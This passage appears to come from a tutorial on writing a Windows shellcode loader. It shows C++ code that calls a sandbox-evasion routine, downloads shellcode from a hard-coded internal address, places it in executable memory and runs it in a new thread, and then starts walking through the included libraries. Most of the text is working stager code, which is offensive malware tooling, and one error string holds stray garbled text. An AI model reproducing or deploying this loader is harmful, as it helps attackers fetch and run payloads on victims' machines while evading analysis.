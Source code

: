 ```

wchar_t* CharArrayToLPCWSTR(const char* array)
{
	wchar_t* wString = new wchar_t[4096];
	MultiByteToWideChar(CP_ACP, 0, array, -1, wString, 4096);
	return wString;
}

int main(int argc, char* argv[])
{
    BypassDynamicAnalysis();
    std::vector<BYTE> recvbuf;
    //  EDIT:                <ip>               <port>      <shellcodefile>
    recvbuf = Download(L"10.250.0.16\0", std::stoi("8001"), L"/test.bin\0");
    
	LPVOID alloc_mem = VirtualAlloc(NULL, recvbuf.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	if (!alloc_mem) {
		printf("Well... it failed! (%u)\n", GetLastError());
		return -1;
	}

	CopyMemory(alloc_mem, recvbuf.data(), recvbuf.size());

	DWORD oldProtect;
	if (!VirtualProtect(alloc_mem, sizeof(recvbuf), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed sd asd asd asdto change memory protection (%u)\n", GetLastError());
		return -2;
	}

	HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)alloc_mem, NULL, 0, NULL);
	if (!tHandle) {
		printf("Failed thread (%u)\n", GetLastError());
		return -3;
	}
	printf("\n\nalloc_mem address : %p\n", alloc_mem);
	WaitForSingleObject(tHandle, INFINITE);
	((void(*)())alloc_mem)();

	return 0;

}
```

### Going over each code section of the loader

Let's now quickly go through the basic functionality of this code.

* We start by including some libraries which will later be used in the program's flow.

```
#include <windows.h>
#include <winhttp.h>
#include <iostream>
#include <vector>
#include <conio.h>

#pragma comment(lib, "winhttp.lib")
#pragma comment (lib, "Mswsock.lib")
#pragma comment (lib, "AdvApi32.lib")
#pragma comment(lib, "ntdll")
```
